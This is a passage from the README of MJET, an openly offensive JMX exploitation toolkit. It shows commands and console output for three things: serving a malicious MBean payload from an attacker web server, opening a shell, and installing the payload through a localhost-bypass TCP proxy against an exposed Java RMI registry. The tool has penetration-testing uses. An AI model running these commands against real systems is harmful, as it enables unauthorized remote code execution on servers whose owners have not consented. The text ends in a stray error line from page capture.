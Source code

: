 Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427

### Webserver only mode

It is also possible to just run the web server that provides the MLET code and the JAR file with the payload MBean
```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 webserver http:/xxxx/xxxx 8000

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Starting webserver at port 8000
[+] Press Enter to stop the service

```

### JMX message protocol (JMXMP) support

Download [opendmk_jmxremote_optional_jar-1.0-b01-ea.jar](https://mvnrepository.com/artifact/org.glassfish.external/opendmk_jmxremote_optional_jar/1.0-b01-ea) and move it into the jars directory. You need to add this directory to the classpath via `java -cp`.

```bash
java -cp "jython.jar:jars/*" org.python.util.jython mjet.py shell mypass
```

### Localhost bypass

It sometimes happens that the RMI registry exposes a RemoteObject that is only accessible on localhost (example @127.0.0.1:45401). However, the port is open where the RemoteObject is accessible over the network. 

```bash
$ nmap -sVC 172.17.0.2 -p 9999,45401

Starting Nmap 7.60 ( https://nmap.org ) at 2020-03-24 16:48 CET
Nmap scan report for 172.17.0.2
Host is up (0.00035s latency).

PORT      STATE SERVICE     VERSION
9999/tcp  open  java-rmi    Java RMI Registry
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @127.0.0.1:45401
|             extends
|_              java.rmi.server.RemoteObject
45401/tcp open  rmiregistry Java RMI
```
It is still possible to exploit this service by using the `--localhost_bypass <PORT>` option. In the following example, we use port 45401. This will start a TCP proxy on localhost and forward the traffic to the targetHost on the supplied port.
```bash
$ jython mjet.py --localhost_bypass 45401 172.17.0.2 9999 install mypass http://172.17.0.1:6666 6666

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Starting webserver at port 6666
[+] Using JMX RMI
[+] Connecting to: service:jmx:rmi:///jndi/rmi://172.17.0.2:9999/jmxrmi
```

[?]: Returned error:
